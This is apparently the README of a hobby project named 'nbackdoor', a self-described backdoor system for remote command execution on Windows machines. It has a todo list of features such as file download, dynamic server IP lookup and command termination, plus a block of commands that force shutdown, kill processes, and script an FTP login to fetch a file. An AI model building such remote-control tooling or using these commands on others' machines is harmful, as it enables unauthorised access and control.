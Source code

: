 # nbackdoor
**backdoor system**

### todo
- [x] 添加 from 字段
- [x] 安全密码输入
- [x] command-line help messages：https://github.com/docopt/docopt
- [x] 下载文件
- [x] ShowDialog 执行完毕返回 result 消息
- [x] console output redirect test
- [x] transfer buf (for 'chars')
- [x] arguments splite

- [x] 获取动态服务器 ip
- [x] esc 终止运行中的命令
- [ ] send_data 和 send_char 融合

## tofix
- [x] 执行 ShowDialog 命令，参数使用中文字符串失败
- [x] connect to client success 处理
- [ ] cat 测试


## note
- [pyinstaller](https://github.com/pyinstaller/pyinstaller)
- [cmd shell -> ftp upload](http://home.51.com/xiaobai521100/diary/item/10008446.html)


## useful cmds
```
shutdown -s -f
taskkill /f /pid
tasklist
echo line1 > 1.txt
echo line2 >> 1.txt

echo open [ftp host] > ftp.txt
echo [account]>> ftp.txt
echo [password]>> ftp.txt
echo binary >> ftp.txt
echo get [download file] >> ftp.txt
echo bye >> ftp.txt

ftp -s:ftp.txt
```

## give up
- [ ] backdoor 端使用 Windows Services 后台执行：https://github.com/Skycrab/pymgr
- [x] jobs pool：用户异步命令执行结果返回并储存在服务端
- [ ] jobs -clean
- [ ] sae branch
- [ ] 考虑 pre_send_char